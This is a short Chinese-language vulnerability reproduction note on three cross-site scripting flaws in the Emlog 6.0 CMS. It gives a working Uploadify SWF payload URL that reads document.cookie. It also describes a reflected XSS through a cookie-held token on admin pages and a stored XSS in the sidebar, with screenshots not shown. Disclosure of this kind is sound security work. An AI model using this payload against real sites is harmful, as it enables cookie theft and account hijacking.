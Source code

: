 Emlog 6.0 xss集合
=================

一、漏洞简介
------------

二、漏洞影响
------------

Emlog 6.0

三、复现过程
------------

### Uploadify SWF XSS

Emlog使用了 uploadify.swf 的方式上传文件，文件路径
/include/lib/js/uploadify/uploadify.swf

payload

    http://www.0-sec.org/include/lib/js/uploadify/uploadify.swf?uploadifyID=00%22%29%29;}catch%28e%29{alert%281%29;}//%28%22&movieName=%22])}catch(e){if(!window.x){window.x=1;alert(document.cookie)}}//&.swf

效果，可无视浏览器filter：

![](./.resource/Emlog6.0xss集合/media/rId25.png)

### 反射xss

此处的XSS主要发生在cookie上，因为某些页面如
admin/admin\_log,admin/sort.php,admin/link.php页面需要在表单中添加了hidden属性的token值，而这个token值直接从用户的cookie中取得，导致了一个反射型XSS

拦截抓包修改cookie中的token值如下：

![](./.resource/Emlog6.0xss集合/media/rId27.png)

效果：

![](./.resource/Emlog6.0xss集合/media/rId28.png)

### 侧边栏存储性XSS

为了同样是为了支持HTML代码的输出，没有转义对应的脚本代码标签，导致了存储性的XSS存在

![](./.resource/Emlog6.0xss集合/media/rId30.png)
